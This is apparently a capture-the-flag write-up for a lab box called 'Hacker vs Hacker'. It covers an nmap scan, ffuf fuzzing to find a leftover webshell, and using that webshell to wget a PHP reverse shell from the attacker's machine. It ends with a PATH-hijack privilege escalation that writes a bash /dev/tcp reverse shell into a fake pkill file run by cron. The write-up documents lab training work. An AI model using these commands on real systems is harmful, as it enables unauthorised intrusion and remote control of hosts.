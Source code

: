 ```yaml
---
title: "Hacker vs Hacker"
description: ""
pubDate: "Jul 08 2022"
heroImage: "/hackervshacker/dc0c7a25ca75eda427f95bfe6e4e24ab.png"
---
```

## Nmap:-

**Nmap -A -T4 -p- [IP]**

```bash
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 9f:a6:01:53:92:3a:1d:ba:d7:18:18:5c:0d:8e:92:2c (RSA)
|   256 4b:60:dc:fb:92:a8:6f:fc:74:53:64:c1:8c:bd:de:7c (ECDSA)
|_  256 83:d4:9c:d0:90:36:ce:83:f7:c7:53:30:28:df:c3:d5 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: RecruitSec: Industry Leading Infosec Recruitment
|_http-server-header: Apache/2.4.41 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=8/14%OT=22%CT=1%CU=30475%PV=Y%DS=2%DC=T%G=Y%TM=62F91B3
OS:C%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=10B%TI=Z%CI=Z%TS=A)SEQ(SP=1
OS:03%GCD=1%ISR=10B%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M505ST11NW6%O2=M505ST11NW6%O
OS:3=M505NNT11NW6%O4=M505ST11NW6%O5=M505ST11NW6%O6=M505ST11)WIN(W1=F4B3%W2=
OS:F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(R=Y%DF=Y%T=40%W=F507%O=M505NNSN
OS:W6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%D
OS:F=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O
OS:=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W
OS:=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%R
OS:IPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 111/tcp)
HOP RTT       ADDRESS
1   179.52 ms 10.8.0.1
2   179.86 ms 10.10.12.146
```

## HTTP:-

![Untitled](/hackervshacker/Untitled.png)

## Uploading Shell:-

Once you upload a file. We redirect to a different page that shows the content below.

![Untitled](/hackervshacker/Untitled%201.png)

**View Source of Upload.php**

![Untitled](/hackervshacker/Untitled%202.png)

## cvs dir:-

There is a cvs directory that holds all uploaded files. Once we have looked at our uploaded file, It's not being uploaded. But we know the hacker hacked it. So maybe the hacker leaves the Webshell out there. Let's start fuzzing.

![Untitled](/hackervshacker/Untitled%203.png)

## **Fuzzing:-**

Fuzzing file Name:-

```bash
sudo ffuf -w /usr/share/wordlists/dirb/common.txt -u http://10.10.12.146/cvs/FUZZ.pdf.php
```

![Untitled](/hackervshacker/Untitled%204.png)

Fuzzing parameter Name:-

```bash
sudo ffuf -w /usr/share/wordlists/dirb/common.txt -u http://10.10.12.146/cvs/shell.pdf.php?FUZZ=ls -fs 18
```

![Untitled](/hackervshacker/Untitled%205.png)

## Webshell:-

```bash
http://10.10.12.146/cvs/shell.pdf.php?cmd=ls
```

![Untitled](/hackervshacker/Untitled%206.png)

## Reverse Shell

**Uploading Reverse shell:-**

I have uploaded a reverse shell using **wget**.

```bash
http://10.10.12.146/cvs/shell.pdf.php?cmd=wget%20http://10.8.237.155:8000/php-reverse-shell.php
```

**Getting Reverse shell:-**

```bash
http://10.10.12.146/cvs/shell.pdf.php?cmd=php%20php-reverse-shell.php
```

![Untitled](/hackervshacker/Untitled%207.png)

## Privilege Escalation:-

**Local Privilege Escalation:-**

We can see the history file has some size.

![Untitled](/hackervshacker/Untitled%208.png)

![Untitled](/hackervshacker/Untitled%209.png)

**Root Privilege Escalation:-**

![Untitled](/hackervshacker/Untitled%2010.png)

- We can see the crontab using pkill repeatly
- PATH:/home/lachlan/bin;/bin;/usr/bin
- First its check /home/lachlan/bin then /bin/ at the end /usr/bin
- So we can have an pkill file which contains reverse shell in /home/lachlan/bin which will executed by crontab

```bash
echo "bash -c 'bash -i >& /dev/tcp/10.8.237.155/9001 0>&1'" > pkill
```

![Untitled](/hackervshacker/Untitled%2011.png)